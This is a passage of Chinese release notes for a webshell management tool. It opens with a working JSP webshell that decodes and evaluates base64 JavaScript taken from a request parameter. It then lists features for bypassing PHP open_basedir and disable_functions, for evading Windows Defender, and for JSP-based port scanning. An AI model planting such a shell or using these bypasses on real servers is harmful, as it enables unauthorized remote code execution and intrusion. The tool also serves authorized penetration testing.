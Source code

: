 ```jsp
  try {
    javax.script.ScriptEngine engine = new javax.script.ScriptEngineManager().getEngineByName("js");
    engine.put("request", request);
    engine.put("response", response);
    engine.eval(new String(base64Decode(request.getParameter("ant"))));
  } catch (Exception e) {
    out.println("Error:// "+e.toString());
  }
%>
```

请自行对照最基础的 WebShell 样例自由发挥 :)

* PHP/PHP4 类型增加 Bypass open_basedir, 自动尝试

> 利用的是 `chdir('..');` 方式, 仅在目标配置了 open_basedir 后才会自动尝试

**该功能会影响之前版本 PHP Bypass DisableFunc 插件, 请及时更新插件**

### 虚拟终端

* 虚拟终端显示文字样式调亮(thx @Nearg1e 帮我们暗中收集调研了一波需求)
* 终端执行命令路径分割符由固定的`[S][E]`改为随机字符串

> 别问, 要问就去问 Windows Defender

### 数据管理

* 开启代理情况下在数据管理状态栏会有提示

### 后端模块

* 修复 multipart 发包方式下, 编码器中 data 内容不为字符串时异常

eg:

```js
'use strict';

module.exports = (pwd, data) => {
  data['test'] = 123; // 这里会引发异常
  data[pwd] = data['_'];
  delete data['_'];
  return data;
}
```

### 插件相关

* ExecuteScript 支持 JSPJS 类型
* GenShell 支持 JSPJS 类型 Shell 生成
* Bypass disable_function
  * 修正 bypass open_basedir 场景下上传路径问题
  * `.antproxy.php` 上传至与 Webshell 同路径下
  * php -S 利用方式会在界面显示开启的临时端口
* PortScan 支持 JSPJS 类型
* Out-of-Network 支持 JSPJS 类型


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino